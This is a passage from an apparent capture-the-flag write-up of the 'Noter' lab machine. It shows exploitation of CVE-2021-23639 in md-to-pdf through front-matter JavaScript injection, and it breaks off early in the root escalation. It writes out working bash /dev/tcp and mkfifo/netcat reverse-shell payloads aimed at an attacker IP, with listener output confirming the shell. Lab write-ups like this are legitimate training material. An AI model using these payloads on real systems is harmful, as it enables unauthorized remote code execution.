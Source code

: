 There is an md-to-pdf function in the backup, and we can see this on the web app too:
![noterexport](https://th3hat3d.github.io/img/noterexport.png)

Looking for exploits in md-to-pdf, we see a poc script for CVE-2021-23639:
![noterpoc](https://th3hat3d.github.io/img/noterpoc.png)

There is an error in the poc, "jsn" should be "js\\n". Since we can export directly from the cloud, we can host the poc and have it downloaded by the web app. My payload:
```
---js\n((require("child_process")).execSync("bash -c 'bash -i >& /dev/tcp/10.10.16.14/1337 0>&1'"))\n---RCE
```

After we export from cloud on the web app, we look at nc:
```
thehated@debian:~$ nc -lnvp 1337  
listening on [any] 1337 ...  
connect to [10.10.16.14] from (UNKNOWN) [10.10.11.160] 50624  
/bin/bash: 1"))\n---RCE: ambiguous redirect
```

The problem with the payload is the ambigious redirects that it has, as indicated by the error message. A reverse shell better suited for this would be the classic mkfifo shell, so we'll try that:
```
---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.14 1337 >/tmp/f"))\n---RCE
```

And at nc, it works:
```
listening on [any] 1337 ...  
connect to [10.10.16.14] from (UNKNOWN) [10.10.11.160] 50710  
sh: 0: can't access tty; job control turned off  
$
```

And we can grab user.txt here too:
```
svc@noter:~$ ls  
app  user.txt  
svc@noter:~$
```
**Privilege Escalation: svc to root**

Running, linpeas, we see something dangerous:
```
╔══════════╣ MySQL                                                                                                                                                                 
mysql  Ver 15.1 Distrib 10.3.32-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2                                                                                          
MySQL user: root                                                                                                                                                                   
                                                                                                                                                                                  
═╣ MySQL connection using default root/root ........... No                                                                                                                         
═╣ MySQL connection using root/toor ................... No                                                                                                                         
═╣ MySQL connection using root/NOPASS ................. No                                                                                                                         
                                                                                                                                                                                  
╔══════════╣ Searching mysql credentials and exec                                                                                                                                  
From '/etc/mysql/mariadb.conf.d/50-server.cnf' Mysql user: user                    = root
```
